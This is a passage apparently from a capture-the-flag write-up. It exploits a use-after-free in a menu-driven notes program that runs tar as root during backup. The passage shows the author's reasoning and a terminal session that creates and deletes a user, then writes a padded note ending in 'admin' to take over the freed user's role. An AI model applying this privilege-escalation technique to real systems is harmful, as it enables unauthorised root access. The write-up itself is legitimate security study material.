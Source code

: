 ```c
        }
```

Here in the backup option we see where our whole plan comes together. This is where the dangling pointer checks the newly created variable for what role we are, then runs tar as root. I'll test all of this out before trying the next step.


```bash
========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 1

Choose an username: tmp

========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 3

========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
6) Save a note (not yet implemented)
7) Delete a note
8) Backup notes
9) Quit
========================================


Your choice: 4

Write your note:
111111111111111111111111admin
========================================
1) Create an user and choose an username
2) Show user information
3) Delete an user
4) Write a note
5) Show a note
```